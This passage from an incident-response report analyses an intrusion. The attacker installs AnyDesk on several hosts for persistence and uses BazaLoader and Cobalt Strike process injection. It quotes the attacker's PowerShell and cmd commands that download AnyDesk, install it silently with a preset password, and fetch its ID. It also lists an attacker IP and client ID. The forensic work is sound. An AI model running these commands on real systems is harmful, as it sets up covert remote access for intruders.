 
[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-10.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-10.png)


After the threat actor moved laterally, we observed them installing Anydesk on multiple clients to create additional means of keeping access.


They used PowerShell and cmd to automate the download and installation of AnyDesk. In order to install Anydesk for unattended access you have to set a password. The password here was set to `J9kzQ2Y0qO`



```
(new-object System.Net.WebClient).DownloadFile("http://download.anydesk.com/AnyDesk.exe", "C:\ProgramData\AnyDesk.exe")
cmd.exe /c C:\ProgramData\AnyDesk.exe --install C:\ProgramData\AnyDesk --start-with-win --silent
cmd.exe /c echo J9kzQ2Y0qO | C:\ProgramData\anydesk.exe --set-password
cmd.exe /c C:\ProgramData\AnyDesk.exe --get-id

```

The threat actor not only leaked their password when installing AnyDesk, but they also temporarily copied the password to the machine as the name of a text file.


![](https://thedfirreport.com/wp-content/uploads/2021/12/3123.png)


From the Anydesk logs, we can also see the Client-ID and the IP used to access the clients. Logs can be found at %programdata%\AnyDesk\ad\_svc.trace



```
IP: 23.106.215.31, Client-id: 903491377
```

![ad-svc.trace](https://thedfirreport.com/wp-content/uploads/2021/12/004e8b4c8dcc96face490df33986e1036c40baf9688a1e9af9212c3a6bd37ff1 "enter image title here")


### 


### Defense Evasion


The threat actors made use of process injection through-out the intrusion. The BazaLoader malware injected into an Edge browser process, as observed by the discovery activity, and Cobalt Strike DLL’s activity.


[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-5.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-5.png)


[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-6.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-6.png)


Cobalt Strike processes were also observed injecting into various other processes.
